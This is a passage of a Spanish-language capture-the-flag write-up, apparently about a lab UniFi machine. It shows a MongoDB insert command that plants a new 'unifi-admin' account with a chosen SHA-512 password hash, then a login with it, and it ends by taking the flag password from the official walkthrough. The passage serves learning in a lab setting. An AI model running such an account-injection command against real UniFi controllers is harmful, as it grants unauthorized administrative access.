 Creamos un hash del tipo sha-512 para un nuevo usuario.

<figure><img src="../../../.gitbook/assets/image (675).png" alt=""><figcaption></figcaption></figure>

```bash
db.admin.insert({ 
  "email" : "null@localhost.local", 
  "last_site_name" : "default", 
  "name" : "unifi-admin", 
  "time_created" : NumberLong(100019800), 
  "x_shadow" : "$6$CY5RIB3Bks3FzoJd$9WH9lP48kbNAOuNTeOEWNWpbTHVDRZyaL9Sh1j1U/qwC4xRlvVvPKGyE1/Pqi1Z5Tuukeob9em9YJaa8B8HJX." 
});
```

Nos logueamos con las credenciales.

<figure><img src="../../../.gitbook/assets/image (676).png" alt=""><figcaption></figcaption></figure>

### 5. 🔑 **Captura de la Flag**

Dado que el recurso actual no está cargando, revisamos el walkthrough oficial para obtener la contraseña. Según el documento oficial, la contraseña es: **NotACrackablePassword4U2022**.
